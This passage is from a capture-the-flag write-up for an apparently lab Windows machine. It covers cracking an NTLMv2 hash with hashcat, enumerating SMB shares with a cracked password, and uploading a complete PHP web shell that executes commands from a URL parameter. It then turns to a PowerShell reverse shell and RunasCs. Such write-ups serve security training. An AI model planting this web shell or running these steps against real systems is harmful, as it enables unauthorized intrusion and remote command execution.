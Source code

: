 and cracked hash with hashcat 

```
hashcat -m 5600 hash  /usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906181626.png)

Next again checking for permissions to share folders and now c.bum have write to Web folder, so I tried to put webshell 

```
nxc smb 10.10.11.187 -u 'c.bum' -p 'Tikkycoll_431012284' --shares
```

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

put on server like before with smbclient

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906182710.png)

We got it

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906182657.png)

Now I generated powershell reverse shell base64 encoded using:
https://www.revshells.com/
and paste:

```
powershell.exe -c "revshell here"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906183705.png)

as we have user with more privs c.bum, lets switch to him with one of my favourite tool RunasCs.exe

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250906184206.png)
